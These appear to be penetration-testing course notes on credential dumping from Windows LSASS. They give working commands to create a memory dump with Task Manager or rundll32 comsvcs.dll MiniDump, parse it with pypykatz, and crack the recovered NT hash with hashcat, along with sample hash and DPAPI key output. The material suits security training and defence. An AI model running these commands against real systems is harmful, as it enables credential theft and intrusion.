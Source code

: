 
- Plays a critical role in credential management and the authentication processes in all Windows OSs.

Upon login, LSASS will:
- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log


#### Dumping LSASS Process Memory

1. Task manager -> Processes -> right click Local Security Authority -> create dump file
	- lsass.DMP created and saved in C:\Users\loggedonusersdirectory\AppData\Local\Temp

2. Find LSASS PID in cmd
```cmd-session
tasklist /svc
```
Find LSASS PID in PowerShell
```powershell-session
Get-Process lsass
```
Create dump file with rundll32
```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
Write to C:\lsass.dmp

3. Running pypykatz (mimikatz in python) on attack host
https://github.com/skelsec/pypykatz
```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

#### MSV
- Authentication package that validates logon attempts against the SAM database

```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

#### WDIGEST
- Older authentication protocol (clear-text)

```shell-session
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```


#### Kerberos
- Network authentication protocol used by Active Directory in Windows Domain environments.
- LSASS caches passwords, ekeys, tickets, and pins

```shell-session
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```


#### DPAPI
- Data Protection API used to encrypt and decrypt DPAPI data blobs
- Use cases: Internet Explorer, Google Chrome, Outlook, Remote Desktop Connection, Credential Manager

```shell-session
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```


### Hashcat to crack NT Hash

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
